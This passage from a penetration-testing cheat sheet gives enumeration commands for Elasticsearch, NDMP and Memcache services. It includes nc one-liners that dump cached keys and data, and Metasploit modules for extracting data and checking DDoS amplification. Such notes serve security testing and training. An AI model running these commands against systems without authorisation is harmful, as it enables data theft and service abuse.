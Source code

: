### Port 9200 - Elasticsearch

Read this https://www.elastic.co/what-is/elasticsearch
```bash
# Enumeration
firefox http://$IP:9200/
```
You can gather all the indices accessing `http://10.10.10.115:9200/_cat/indices?v`
```sh
health status index   uuid                   pri rep docs.count docs.deleted store.size pri.store.size
green  open   .kibana 6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb            4kb
yellow open   quotes  ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0    262.7kb        262.7kb
yellow open   bank    eSVpNfCfREyYoVigNWcrMw   5   1       1000            0    483.2kb        483.2kb

```
... in build

### Port  10000 - Network Data Management Protocol (ndmp)

```bash
# Enumeration
nmap -n -sV --script "ndmp-fs-info or ndmp-version" -p 10000 $IP

```

### Port 11211 - Memcache

To ex-filtrate all the information saved inside a memcache instance you need to:
1 ) Find slabs with active items
2 ) Get the key names of the slabs detected before
3 ) Ex-filtrate the saved data by getting the key names

```bash
echo "version" | nc -vn $IP 11211      #Get version
echo "stats" | nc -vn $IP 11211        #Get status
echo "stats slabs" | nc -vn $IP 11211  #Get slabs
echo "stats items" | nc -vn $IP 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn $IP 11211  #Get key names
echo "get <item_name>" | nc -vn $IP 11211  #Get saved info

#This php will just dumo the keys, you need to use "get <item_name> later"
sudo apt-get install php-memcached
php -r '$c = new Memcached(); $c->addServer("localhost", 11211); var_dump( $c->getAllKeys() );'

# auto mode ;)
nmap -n -sV --script memcached-info -p 11211 $IP   #Just gather info
msf > use auxiliary/gather/memcached_extractor      #Extracts saved data
msf > use auxiliary/scanner/memcached/memcached_amp #Check is UDP DDoS amplification attack is possible

```
